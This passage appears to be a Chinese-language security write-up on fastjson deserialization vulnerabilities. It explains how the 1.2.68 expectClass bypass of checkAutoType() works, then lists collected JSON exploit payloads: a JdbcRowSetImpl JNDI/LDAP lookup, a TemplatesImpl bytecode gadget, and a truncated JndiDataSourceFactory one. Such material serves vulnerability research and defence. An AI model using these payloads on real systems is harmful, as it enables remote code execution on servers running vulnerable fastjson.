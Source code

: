 ### 8. fastjson-1.2.68

在 1.2.47 版本漏洞爆发之后，官方在 1.2.48 对漏洞进行了修复，在 `MiscCodec` 处理 Class 类的地方，设置了cache 为 false ，并且 `loadClass` 重载方法的默认的调用改为不缓存，这就避免了使用了 Class 提前将恶意类名缓存进去。

这个安全修复为 fastjson 带来了一定时间的平静，直到 1.2.68 版本出现了新的漏洞利用方式。

> 影响版本：`fastjson <= 1.2.68`
> 描述：利用 expectClass 绕过 `checkAutoType()` ，实际上也是为了绕过安全检查的思路的延伸。主要使用 `Throwable` 和 `AutoCloseable` 进行绕过。

版本 1.2.68 本身更新了一个新的安全控制点 safeMode，如果应用程序开启了 safeMode，将在 `checkAutoType()` 中直接抛出异常，也就是完全禁止 autoType，不得不说，这是一个一劳永逸的修复方式。

![](https://oss.javasec.org/images/1616569998850.png)

但与此同时，这个版本报出了一个新的 autoType 开关绕过方式：利用 expectClass 绕过  `checkAutoType()`。

在 `checkAutoType()` 函数中有这样的逻辑：如果函数有 `expectClass` 入参，且我们传入的类名是 `expectClass` 的子类或实现，并且不在黑名单中，就可以通过 `checkAutoType()` 的安全检测。

![](https://oss.javasec.org/images/1616575145371.png)

接下来我们找一下 `checkAutoType()` 几个重载方法是否有可控的 `expectClass` 的入参方式，最终找到了以下几个类：
- `ThrowableDeserializer#deserialze()`
- `JavaBeanDeserializer#deserialze()`

`ThrowableDeserializer#deserialze()` 方法直接将 `@type` 后的类传入 `checkAutoType()` ，并且 expectClass 为 `Throwable.class`。

![](https://oss.javasec.org/images/1616590581075.png)

通过 `checkAutoType()` 之后，将使用 `createException` 来创建异常类的实例。

![](https://oss.javasec.org/images/1616591945228.png)

这就形成了 `Throwable` 子类绕过 `checkAutoType()` 的方式。我们需要找到 `Throwable` 的子类，这个类的 getter/setter/static block/constructor 中含有具有威胁的代码逻辑。

与 `Throwable` 类似地，还有 `AutoCloseable` ，之所以使用 `AutoCloseable` 以及其子类可以绕过 `checkAutoType()` ，是因为 `AutoCloseable` 是属于 fastjson 内置的白名单中，其余的调用链一致，流程不再赘述。


## 四、payload

以下为部分在各个途径搜集的 payload，版本自测：

JdbcRowSetImpl
```json
{
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://127.0.0.1:23457/Command8",
    "autoCommit": true
}
```
TemplatesImpl
```json
{
	"@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
	"_bytecodes": ["yv66vgA...k="],
	'_name': 'su18',
	'_tfactory': {},
	"_outputProperties": {},
}
```
JndiDataSourceFactory
```json
{
    "@type": "org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
```